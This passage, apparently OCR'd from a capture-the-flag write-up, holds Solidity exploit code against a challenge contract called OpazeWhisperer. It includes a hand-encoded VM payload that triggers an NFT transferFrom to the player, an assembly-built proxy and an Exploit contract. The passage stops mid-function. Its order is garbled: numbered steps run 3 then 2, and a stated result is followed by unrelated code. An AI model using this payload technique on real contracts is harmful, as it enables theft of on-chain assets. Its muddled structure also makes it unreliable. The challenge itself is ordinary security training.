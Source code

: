 3. Construct VM instructions for NFT transfer:
```solidity
bytes memory payload = bytes.concat(
    data,    // "play(string)" with "answer"
    hex"00000000000000000000000000000000000000000000000000000000",  // padding
    
    // VM instruction sequence:
    hex"11020080",    // Push operation
    hex"11020000",    // Push operation
    hex"11020000",    // Push operation
    hex"1114", abi.encodePacked(address(PLAYER)),    // Push player address
    
    // Build transferFrom call
    hex"33", hex"23b872dd000000000000000000000000769f3e5057b43b0d511065ed74df982e",    // Store opcode
    hex"33", hex"9134da9c000000000000000000000000d2d86433d89c204bf5f2451bbc98175a",    // Store opcode
    hex"33", hex"1fc4cd6900000000000000000000000000000000000000000000000000000000",    // Store opcode
    hex"33", hex"00000001fffffff1000000010000000100000001000000010000000100000001",    // Store opcode
    
    hex"22"    // Call operation
);
```

The VM execution sequence:
1. Push operations (0x11) set up stack for the call
2. Store operations (0x33) construct the transferFrom call data
3. Final call operation (0x22) executes the NFT transfer

This precise sequence ensures:
```solidity
contract Proxy {
   constructor() {
       assembly {
           mstore(0, 0x5F5F5F5F335aF400414100000000000000000000000000000000000000000000)
           mstore8(8, 0x06)
           mstore8(9, 0x60)
           return(0, 10)
       }
   }
}
```

2. The main exploit contract that handles the VM interaction:
```solidity
contract Exploit {
   OpazeWhisperer immutable target;
   address immutable PLAYER;
   address proxy;
   
   constructor(OpazeWhisperer _target, address _proxy, address player) {
       target = _target;
       proxy = _proxy;
       PLAYER = player;
   }
   
   function pwn() external payable {
       (bool success,) = address(proxy).call{gas: 100000, value: 0x02D4}("");
       require(success, "Call failed1");
   }

   fallback() external payable {
        bytes memory data = abi.encodeWithSignature(
           "play(string)",
```